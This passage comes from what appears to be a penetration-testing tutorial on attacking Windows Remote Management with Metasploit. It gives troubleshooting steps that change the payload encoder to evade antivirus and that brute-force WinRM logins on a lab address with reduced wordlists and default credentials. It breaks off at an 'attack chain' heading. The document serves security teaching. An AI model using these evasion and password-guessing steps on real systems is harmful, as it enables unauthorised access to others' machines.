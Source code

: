 ```bash
# Step 3: Check antivirus interference
# Try different encoder
set encoder x86/shikata_ga_nai
exploit
```

**Common Causes:**
- Antivirus blocking meterpreter
- Network filtering blocking reverse connection
- Wrong payload for target architecture
- PowerShell execution restrictions

---

### **❌ Problem 4: Wordlist Attack Too Slow**

**What You See:**
```bash
[*] 192.168.1.100:5985 - LOGIN FAILED: user1:password1
[*] 192.168.1.100:5985 - LOGIN FAILED: user1:password2
# Very slow progress...
```

**How to Fix:**
```bash
# Step 1: Reduce wordlist size
head -100 /usr/share/metasploit-framework/data/wordlists/common_users.txt > small_users.txt
head -100 /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt > small_pass.txt

# Step 2: Set threading (be careful with this)
set THREADS 5
# Don't go too high or you might crash the service

# Step 3: Try common credentials first manually
set USERNAME administrator
set PASSWORD password
exploit
# Then try: admin, guest, user, etc.
```

**Speed Tips:**
- Start with most common credentials manually
- Use smaller wordlists for time-limited scenarios
- Try default Windows accounts first
- Set VERBOSE false to reduce output

---

## 🔗 Using WinRM with Other Tools

### **🎯 Complete Attack Chain: Nmap → Metasploit → Browser**
